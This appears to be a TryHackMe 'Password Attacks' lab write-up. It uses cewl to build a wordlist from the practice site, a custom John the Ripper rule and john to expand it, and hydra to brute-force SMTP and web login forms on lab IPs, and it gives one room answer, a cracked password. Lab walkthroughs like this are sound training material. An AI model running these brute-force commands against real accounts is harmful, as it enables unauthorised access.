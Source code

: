 # Password Attacks

**Room Link:** [https://tryhackme.com/room/passwordattacks](https://tryhackme.com/room/passwordattacks)



## Deploy the VM

Creating a wordlist from this site as recommend in the room.

**Kali**

```
cewl -m 8 -w clinic.lst https://clinic.thmredteam.com/  
```

## Offline Attacks

**In this question, you need to generate a rule-based dictionary from the wordlist clinic.lst in the previous task. email: pittman@clinic.thmredteam.com against 10.10.131.68:25 (SMTP).**

**What is the password? Note that the password format is as follows: \[symbol]\[dictionary word]\[0-9]\[0-9].**

#### **john.conf**

```
[List.Rules:THM-Password-Attacks]
Az"[0-9][0-9]" ^[!@#$]
```

**Kali**

```
john --wordlist=clinic.lst --rules=THM-Password-Attacks --stdout > dict.lst
hydra -l pittman@clinic.thmredteam.com -P dict.lst smtp://$VICTIM:25 -v
```

Answer is !multidisciplinary00

**Perform a brute-forcing attack against the phillips account for the login page at http://10.10.130.199/login-get using hydra? What is the flag?**

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>





**Kali**

```
hydra -l phillips -P ../dict.lst 10.10.130.199 http-get-form "/login-get/index.php:username=^USER^&password=^PASS^:S=logout.php" -f
```



<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>



\
**Perform a rule-based password attack to gain access to the burgess account. Find the flag at the following website: http://10.10.130.199/login-post/. What is the flag?**

**Note: use the clinic.lst dictionary in generating and expanding the wordlist!**



**Kali**

```
john --wordlist=clinic.lst --rules=Single-Extra --stdout > dict2.lst

./hydra -l burgess -P dict2.lst 10.10.130.199 http-post-form "/login-post/index.php:username=^USER^&password=^PASS^:S=logout.php" -f 
```

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>
